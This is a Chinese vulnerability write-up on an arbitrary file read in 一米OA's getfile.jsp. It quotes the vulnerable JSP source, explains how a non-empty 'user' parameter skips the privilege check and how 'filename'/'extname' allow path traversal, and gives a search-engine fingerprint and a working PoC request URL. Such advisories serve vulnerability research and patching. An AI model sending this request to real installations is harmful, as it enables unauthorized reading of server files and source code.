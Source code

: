 # 一米OA getfile.jsp 任意文件读取漏洞

## 漏洞描述

一米OA getfile.jsp文件过滤不足，导致任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>一米OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="一米OA"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628483166897-10963648-1494-4ea3-a76b-e5865f0d0f00.png)

出现漏洞的文件

```php
<%@ page contentType="text/html;charset=utf-8" %>
<%@page import="cn.js.fan.util.*" %>
<%@page import="cn.js.fan.web.Global" %>
<%@page import="com.redmoon.oa.*" %>
<%@page import="java.io.*" %>
<jsp:useBean id="fchar" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="fsecurity" scope="page" class="cn.js.fan.security.SecurityUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.oa.pvg.Privilege"/>
<%
    String user = ParamUtil.get(request, "user");
    if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }

    String filename = ParamUtil.get(request, "filename");
    String extname = request.getParameter("extname");
    String prop = request.getParameter("prop");
    if (filename == null) {
        System.out.println("缺少文件名！");
        return;
    }

    filename = filename + "." + extname;

    Config cfg = new Config();
    String noticefilepath;
    if ("activex".equals(prop)) {
        noticefilepath = prop;
    } else {
        noticefilepath = cfg.get(prop);
    }

    String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }

    response.setContentType("application/" + extname);
    response.setHeader("Content-disposition", "attachment; filename=" + filename);

    BufferedInputStream bis = null;
    BufferedOutputStream bos = null;

    try {
        bis = new BufferedInputStream(new FileInputStream(filePath));
        bos = new BufferedOutputStream(response.getOutputStream());

        byte[] buff = new byte[2048];
        int bytesRead;

        while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
            bos.write(buff, 0, bytesRead);
        }

    } catch (final IOException e) {
        System.out.println("出现IOException." + e);
    } finally {
        if (bis != null)
            bis.close();
        if (bos != null)
            bos.close();
    }

    out.clear();
    out = pageContext.pushBody();
%>
```

首先验证 user 传参是否为空, 需要对 user 参数任意赋值

```php
if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }
```

接着接受3个参数 `filename, extname, prop`

```php
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
```

接着判断 prop 是否为 activex, 不等于则会去调用系统默认配置的路径
所以filename和extname这两个参数我们可以控制。构造请求前台任意文件读取

```php
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }
```

验证POC

```php
/public/getfile.jsp?user=1&prop=activex&filename=../public/getfile&extname=jsp 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628483231725-7feffe1e-0514-4149-8afc-57d0c9ce1dad.png)



若有收获，就点个赞吧